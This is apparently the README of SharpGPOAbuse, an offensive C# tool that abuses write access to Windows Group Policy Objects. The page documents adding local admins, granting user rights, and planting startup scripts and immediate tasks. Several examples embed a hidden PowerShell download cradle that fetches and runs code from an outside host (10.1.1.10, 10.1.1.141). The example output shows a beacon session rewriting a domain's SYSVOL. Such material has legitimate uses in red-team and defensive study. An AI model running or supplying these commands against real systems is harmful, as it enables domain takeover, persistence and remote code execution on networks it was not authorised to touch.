 # SharpGPOAbuse
SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.mwrinfosecurity.com/tools/sharpgpoabuse](https://labs.mwrinfosecurity.com/tools/sharpgpoabuse)

## Compile Instructions ## 
Make sure the necessary NuGet packages are installed properly and simply build the project in Visual Studio.

## Usage ##
```
Usage:
        SharpGPOAbuse.exe <AttackType> <AttackOptions>
```

## Attacks Types ## 
Currently SharpGPOAbuse supports the following options:

| Option               | Description                               |
| ---------------------|-------------------------------------------|
| [--AddUserRights](#adding-user-rights) | Add rights to a user                      |
| [--AddLocalAdmin](#adding-a-local-admin)      | Add a user to the local admins group      |
| [--AddComputerScript](#configuring-a-user-or-computer-logon-script)  | Add a new computer startup script         |
| [--AddUserScript](#configuring-a-user-or-computer-logon-script)      | Configure a user logon script             |
| [--AddComputerTask](#configuring-a-computer-or-user-immediate-task)    | Configure a computer immediate task       |
| [--AddUserTask](#configuring-a-computer-or-user-immediate-task)        | Add an immediate task to a user           |

## Attack Options

### Adding User Rights 
```
Options required to add new user rights:
--UserRights
        Set the new rights to add to a user. This option is case sensitive and a comma separeted list must be used.
--UserAccount
        Set the account to add the new rights.
--GPOName
        The name of the vulnerable GPO.
        
Example:
        SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"
```

### Adding a Local Admin 
```
Options required to add a new local admin:
--UserAccount
        Set the name of the account to be added in local admins.
--GPOName
        The name of the vulnerable GPO.

Example:
        SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"
```

### Configuring a User or Computer Logon Script  
```
Options required to add a new user or computer startup script:
--ScriptName
        Set the name of the new startup script.
--ScriptContents
        Set the contents of the new startup script.
--GPOName
        The name of the vulnerable GPO.

Example: 
        SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

If you want to run the malicious script only on a specific user or computer controlled by the vulnerable GPO, you can add an if statement within the malicious script:
```
SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "if %username%==<targetusername> powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

### Configuring a Computer or User Immediate Task  
```
Options required to add a new computer or user immediate task:

--TaskName
        Set the name of the new computer task.
--Author
        Set the author of the new task (use a DA account).
--Command
        Command to execute.
--Arguments
        Arguments passed to the command.
--GPOName
        The name of the vulnerable GPO.

Additional User Task Options:
--FilterEnabled
        Enable Target Filtering for user immediate tasks.
--TargetUsername
        The user to target. The malicious task will run only on the specified user. Should be in the format <DOMAIN>\<USERNAME>
--TargetUserSID
        The targeted user's SID.

Additional Computer Task Options:
--FilterEnabled
        Enable Target Filtering for computer immediate tasks.
--TargetDnsName
        The DNS name of the computer to target. The malicious task will run only on the specified host.
        
Example: 
        SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

If you want to run the malicious task only on a specific user or computer controlled by the vulnerable GPO you can use something similar to the following:
```
SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO" --FilterEnabled --TargetDnsName target.domain.com

```

## Additional Options 
| Option               | Description                               |
| ---------------------|-------------------------------------------|
| --DomainController   | Set the target domain controller          |
| --Domain             | Set the target domain                     |
| --Force              | Overwrite existing files if required      | 

## Example Output
```
beacon> execute-assembly /root/Desktop/SharpGPOAbuse.exe --AddComputerTask --TaskName "New Task" --Author EUROPA\Administrator --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.141:80/a'))\"" --GPOName "Default Server Policy"
[*] Tasked beacon to run .NET program: SharpGPOAbuse_final.exe --AddComputerTask --TaskName "New Task" --Author EUROPA\Administrator --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"I
EX ((new-object net.webclient).downloadstring('http://10.1.1.141:80/a'))\"" --GPOName "Default Server Policy"
[+] host called home, sent: 171553 bytes
[+] received output:
[+] Domain = europa.com
[+] Domain Controller = EURODC01.europa.com
[+] Distinguished Name = CN=Policies,CN=System,DC=europa,DC=com
[+] GUID of "Default Server Policy" is: {877CB769-3543-40C6-A757-F2DF4E5E28BD}
[+] Creating file \\europa.com\SysVol\europa.com\Policies\{877CB769-3543-40C6-A757-F2DF4E5E28BD}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```
